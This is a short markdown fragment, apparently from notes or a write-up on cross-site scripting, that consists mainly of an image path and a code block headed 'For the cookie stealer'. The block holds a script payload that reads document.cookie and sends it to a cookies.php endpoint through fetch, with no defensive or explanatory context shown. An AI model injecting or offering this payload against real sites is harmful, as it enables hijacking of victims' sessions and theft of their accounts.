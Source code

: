 ## For the cookie stealer

```
<script>
const data=document.cookie;
fetch('cookies.php?c='+data,{
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
  },
  body: "foo",
})
</script>
```